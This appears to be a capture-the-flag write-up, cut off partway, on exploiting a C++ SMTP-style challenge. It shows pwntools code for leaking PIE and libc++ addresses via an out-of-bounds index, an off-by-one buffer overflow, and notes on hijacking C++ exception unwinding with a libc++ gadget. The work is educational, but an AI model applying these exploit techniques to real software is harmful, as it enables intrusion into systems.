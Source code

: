 The inspiration for this challenge came from this [underrated paper](https://www.ndss-symposium.org/wp-content/uploads/2023/02/ndss2023_s295_paper.pdf). Give it a read because I'm neither willing nor able to explain exceptions in C++.  

**DISCLAIMER**: Be prepared to shed some tears if you're willing to read libcpp's source code.  

Let's start with leaking some addresses. Essentially, `VRFY` will only leak addresses from `.bss` and `.data` because of the size of the `id` [-127 -> 128], and it will dereference the address twice.  

```cpp
			id = std::stoi(splcmd[3]);
			std::cout << "250 " << "EXIST " << users[id]->id << std::endl;
```
Well, after a bit of fuzzing, we are able to leak the PIE base and libcpp addresses.
```py
    pp.sendline(b"VRFY id -s -6")
    libcpp_leak = int(pp.recvline().rstrip().split(b" ")[-1])
    libcpp.address = libcpp_leak - 2604064
    pp.sendline(b"VRFY id -s -92")
    elf.address = int(pp.recvline().rstrip().split(b" ")[-1]) - 45536
    log.info(f"libcpp leak {hex(libcpp_leak)}")
    log.info(f"piebase leak {hex(elf.address)}")
    log.info(f"libcpp base {hex(libcpp.address)}")
    log.info("logging in")
```

Now we need to overflow. The one byte extra in `read` will overflow into `Mail.dsize` and overflow the `buffer` the next time we read.
```c
        ...
		int stat = read(0, buffer, current_mail.dsize + 1);
        ...
		memcpy(current_mail.data, buffer, current_mail.dsize + 1);
        ...
```

```py
    a = auth("j", "z", "s", "l")
    b = auth("n", "n", "naaa", "n")
    log.info(f"users {a} {b} logged")
    log.info("overflowing")
    mailfrom(a)
    rcptto(b)
    data((b"\x00" * 1024) + b'\xff')
    data((b"\x00" * 1024 + b'f\x09'))            # making sure that we own dsize
```

So we know that we are never returning to our ROP chain, so the solution would be unwinding to another function, which will be `clean_mail` because it's the only one that has a try/catch statement.  

A cool thing I've read in the paper is **the golden gadget**, which is basically a LibCPP gadget that executes its parameter.  

```cpp
void __cxa_call_unexpected (void *exc_obj_in)
{
    /* ... */
    xh_terminate_handler = xh->terminateHandler; ª
    /* ... */
    __try
    { /* ... */ }
    __catch(... º)
    {
        /* ... */
        __terminate (xh_terminate_handler Ω);
    }
    /* ... */
}

```